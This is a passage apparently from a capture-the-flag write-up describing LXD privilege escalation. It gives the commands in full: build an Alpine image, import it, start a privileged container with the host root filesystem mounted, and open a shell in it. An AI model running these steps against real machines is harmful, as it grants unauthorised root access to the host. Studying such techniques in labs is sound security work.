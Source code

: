 
There is nice [article](https://www.hackingarticles.in/lxd-privilege-escalation/) that explain exploit.

So I cloned the alpine builder

> git clone  https://github.com/saghul/lxd-alpine-builder.git

Launch the builder

> ./build-alpine 

Download the alpine image on machine
<img src="./img/alpine.png"  width="650"/>

Import image in lxc

> lxc image import alpine-v3.12-i686-20200826_15554.tar.gz --alias evil

Initialize lxc

> lxc init

Init and set image in lxc
> lxc init evil ignite -c security.privileged=true
>
> lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
>
> lxc start ignite

Launch image

> lxc exec ignite /bin/sh


<img src="./img/alpine3.png"  width="650"/>
